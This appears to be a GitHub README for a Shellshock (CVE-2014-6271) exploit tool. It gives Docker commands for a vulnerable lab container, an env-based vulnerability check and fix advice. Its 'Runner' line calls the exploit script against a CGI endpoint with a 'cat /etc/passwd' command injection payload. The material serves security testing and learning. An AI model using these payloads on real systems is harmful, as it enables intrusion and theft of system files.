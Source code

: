 ## CVE-2014-6271 [ shellshock ]
> GNU Bourne-Again Shell (Bash) ‘Shellshock’ Vulnerability

Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

- Expose a machine to shellshock attack
  ```
  docker pull prashanthsams/cve-2014-6271
  docker run -d -p 8080:80 prashanthsams/cve-2014-6271
  ```

- Check if the current machine is vulnerable to `CVE-2014-6271`
  ```
  env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION%%=() { :;}; echo Bash is vulnerable!' bash
  ```

### Runner
```
python CVE-2014-6271/main.py http://0.0.0.0:8080/cgi-bin/vulnerable 'cat /etc/passwd;'
```

### How to fix ?
- Update Bash version `> v4.3`
- Check version `bash --version`

### Prerequisites
1. Python libraries
   ```
   requests
   mechanize
   pyopenssl
   ```